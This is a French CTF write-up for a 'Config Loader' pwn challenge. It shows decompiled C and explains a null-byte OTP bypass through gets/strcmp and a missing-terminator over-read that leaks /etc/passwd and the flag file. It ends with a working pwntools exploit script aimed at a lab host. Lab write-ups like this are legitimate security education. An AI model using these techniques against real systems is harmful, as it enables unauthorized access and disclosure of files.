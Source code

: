 # hacksecureims

# Config Loader - HackSecuReims

```c 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v4 = 0;
  ignore_me_init_buffering(argc, argv, envp);
  print_banner();
  puts("Access restricted - You must log in first");
  sleep(1u);
  if ( !(unsigned int)login() )
  {
    puts("Unauthorized access detected - Exiting");
    exit(1);
  }
  while ( v4 != 6 )
  {
    print_menu();
    printf(">>>");
    __isoc99_scanf(" %d", &v4);
    fflush(stdin);
    if ( v4 <= 0 || v4 > 5 )
    {
      puts("Unknown action, exiting ... ");
      exit(1);
    }
    switch ( v4 )
    {
      case 1:
        check_ram();
        break;
      case 2:
        check_integrity();
        break;
      case 3:
        push_config();
        break;
      case 4:
        read_config();
        break;
      case 5:
        exit(0);
      default:
        puts("Invalid option..");
        break;
    }
  }
  return 0;
}
```

En analysant la fonction main on peut voir qu'il propose plusieurs choix via un menu. 

Avant d'afficher les différents choix nous devons nous connecter.

```c 
__int64 login()
{
  unsigned int v0; // eax
  int i; // [rsp+0h] [rbp-20h]
  char s1[8]; // [rsp+8h] [rbp-18h] BYREF
  char s[8]; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  memset(s, 0, sizeof(s));
  memset(s1, 0, sizeof(s1));
  puts("[+] Generate and send OTP please wait..");
  sleep(2u);
  puts("[+] Done !");
  v0 = time(0LL);
  srand(v0);
  for ( i = 0; i <= 3; ++i )
    s[i] = rand() % 26 + 97;
  puts("access code:  ");
  gets(s1);
  if ( strcmp(s1, s) )
  {
    puts("[-] Access Denied\n");
    exit(1);
  }
  puts("[+] Access Granted");
  return 1LL;
}
```

J'ai vu l'utilisation de gets et de strcmp, j'ai donc bypass cette partie en remplissant le buffer avec des nullbytes.


Après avoir bypass le login j'ai check chaque fonction du menu et celle qui m'a interpelé c'est read_config.

```c 
__int64 read_config()
{
  int fd; // [rsp+Ch] [rbp-4h]

  memset(path, 0, sizeof(path));
  memset(content, 0, sizeof(content));
  puts("[+] File path:");
  read(0, path, 0x40uLL);
  path[strcspn(path, "\n")] = 0;
  fd = open(path, 0);
  if ( fd )
  {
    puts("[+] File exists, reading config..");
    read(fd, content, 0xFFFuLL);
    close(fd);
    content[strlen(content)] = 10;
    sleep(2u);
    puts("[+] Config stored in memory !");
    return 1LL;
  }
  else
  {
    puts("[-] Cannot open file..");
    return 0LL;
  }
}
```

Cette fonction permet à utilisateur de charger en mémoire le contenu d'un fichier depuis le serveur distant.

Une fois avoir chargé le contenu de flag.txt dans la mémoire j'ai tenté d'analyser les autres fonction pour voir si je pouvais avoir un arbitry read.

La seule fonction qui m'a interpelé était push_config.

```c 
__int64 push_config()
{
  puts("[!] Looking for configuration [!]");
  sleep(1u);
  puts("[+] . . .");
  sleep(2u);
  printf("[+] Found config file at %s\n", path);
  puts("[+] Sending configuration to remote beacon !");
  sleep(3u);
  puts("[+] Done !");
  return 42LL;
}
```

On peut voir en effet qu'il lit la variable path qui est aligné en mémoire avec la variable content dans le read_config.

Je suis donc retourné dans la fonction read_config et j'ai remarqué la présence de `path[strcspn(path, "\n")] = 0;`. En effet au moment ou je met le path il va automatiquement ajouter un null byte dès qu'il trouve un `\n`.

Nous allons profiter de ce bug de logique afin de over read, pour ce faire j'ai simplement remplis les 64 bytes du read dans path avec un chemin contenant plein de /

```
//////////////////////////////////////////////////////etc/passwd
```

En faisant cela aucun null byte ne sera ajouté au path et lorsque nous appelerons push_config il lira le contenu dans content.

Dans le consigne il est écrit que le flag est contenu dans le dossier de l'utilisateur qui execute le binaire. En lisant le etc/passwd j'ai pu trouver l'user et lire le flag dans son home.



```python=
from pwn import *


r = remote("10.22.6.20", 1337)


def bypass_otp(r):
    r.recvuntil(b"--- Settings console ---\n\nAccess restricted - You must log in first\n[+] Generate and send OTP please wait..\n[+] Done !\naccess code:")
    r.sendline(b"\x00"*8)

def print_menu(r):
    r.recvuntil(b"--- Menu ---\n\n1 - Check RAM\n\n2 - Check Integrity\n\n3 - Push Config\n\n4 - Load config\n\n5 - Exit console\n\n>>>")

def load_config(r, path):
    print_menu(r)
    r.sendline(b"4")
    r.sendline(path)



bypass_otp(r)

load_config(r, b"//////////////////////////////////////////////home/ghoztadm/flag")
r.interactive()
```
